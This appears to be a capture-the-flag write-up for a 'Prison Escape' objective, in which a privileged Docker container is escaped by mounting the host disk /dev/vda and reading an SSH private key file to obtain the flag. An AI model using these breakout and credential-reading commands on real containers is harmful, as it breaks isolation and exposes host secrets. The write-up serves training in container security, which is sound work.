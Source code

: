 

# Objective 6: Prison Escape
**Location: Elfen Ring**  
**Elf: Tinsel Upatree**

This objective is about getting familiar with the rest of breaking out of a docker container if the permissions are not set appropriately.


```
sudo root
cat /proc/cmdline
panic=1 pci=off ip=dhcp console=ttyS0 reboot=k root=/dev/vda rw virtio_mmio.device=4K@0xd0000000:5 [virtio_mmio.device=4K@0xd0001000](mailto:virtio_mmio.device%3D4K@0xd0001000):6
mkdir /mnt/joergen
mount /dev/vda /mnt/joergen
cat /mnt/joergen/home/jailer/.ssh/jail.key.priv
[...]
082bb339ec19de4935867
```

**082bb339ec19de4935867**

**Achievement: Elfen Ring**

